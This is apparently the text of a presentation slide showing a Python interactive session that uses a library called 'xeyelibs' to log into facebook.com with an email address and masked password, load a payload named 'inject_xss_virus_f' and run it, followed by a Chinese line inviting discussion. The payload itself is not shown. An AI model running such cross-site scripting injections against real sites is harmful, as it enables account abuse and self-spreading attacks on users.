

>>> from xeyelibs import *
>>> x = xeye.xss('http://www.facebook.com')
>>> x.login('lurenjia@gmail.com', '*******')
>>> x.load(payloads['inject_xss_virus_f'])
>>> x.run()
…
# 欢迎交流